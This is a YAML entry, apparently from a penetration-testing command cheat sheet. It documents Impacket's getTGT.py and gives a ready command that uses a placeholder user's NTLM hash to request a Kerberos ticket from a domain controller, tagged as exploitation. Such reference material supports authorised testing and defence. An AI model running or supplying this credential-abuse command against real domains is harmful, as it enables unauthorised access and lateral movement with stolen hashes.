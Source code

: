 ```yaml
---
description: |
  Impacket's getTGT.py uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  python3 getTGT.py test.local/john -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

